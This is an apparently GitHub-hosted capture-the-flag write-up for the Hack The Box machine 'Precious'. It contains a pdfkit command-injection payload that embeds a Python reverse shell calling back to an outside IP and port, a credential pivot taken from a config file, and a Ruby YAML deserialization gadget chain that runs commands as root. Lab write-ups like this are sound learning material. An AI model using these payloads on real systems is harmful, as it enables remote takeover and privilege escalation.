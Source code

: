 # HTB Machine Precious 

Port scaning with nmap
- port 80 is open : redirect to http://precious.htb/

add this to `/etc/hosts`

On this page we have **Convert Web Page to PDF** functionality 

<img width="474" alt="image" src="https://user-images.githubusercontent.com/79740895/231573264-a9246425-3e38-4e9d-8b5a-431684ceff6f.png">

after giving url pdf file is downloaded 

using exiftool on pdf we know that it is _Generated by pdfkit v0.8.6_

This version is vulnerable to RCE 

Payload: 
```url
http://%20`{command}`
```

we can use this to get reverse shell

```shell
http://%20`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.40",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`
```

references: https://www.revshells.com/

we get shell as user ruby

<img width="216" alt="image" src="https://user-images.githubusercontent.com/79740895/231575127-06729034-9ced-4058-bc70-6b335f7044f9.png">

we can see two user in /home directory 

<img width="83" alt="image" src="https://user-images.githubusercontent.com/79740895/231575282-f6f90c02-7aa8-4d87-ba56-d603b07b02eb.png">

user flag is in directory of user henry but it is not accessible.

inside the directory of user ruby there is config file in .bundle in this file we can see password of user henry

<img width="252" alt="image" src="https://user-images.githubusercontent.com/79740895/231575704-cd2668c0-8a7e-4542-91bb-669cb7bdaed1.png">

we can use this for ssh to henry

user can run /opt/update_dependencies.rb as root with sudo

<img width="344" alt="image" src="https://user-images.githubusercontent.com/79740895/231576872-90fbe14a-5858-4480-83a5-901366213b58.png">

this file is not writable. looking at code we see it use YAML.load, which is vulnerable to deserialization attack.

<img width="213" alt="image" src="https://user-images.githubusercontent.com/79740895/231577426-1faf86eb-003b-4c17-be99-0ca2b7c79a60.png">

we can write in dependencies.yml

payload:
```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cat /root/root.txt
         method_id: :resolve
```

reference: https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml

now we can run this with sudo and get the root flag
`sudo /usr/bin/ruby /opt/update_dependencies.rb`


This give root flag.

<br>

:octocat: Happy Hacking :octocat:



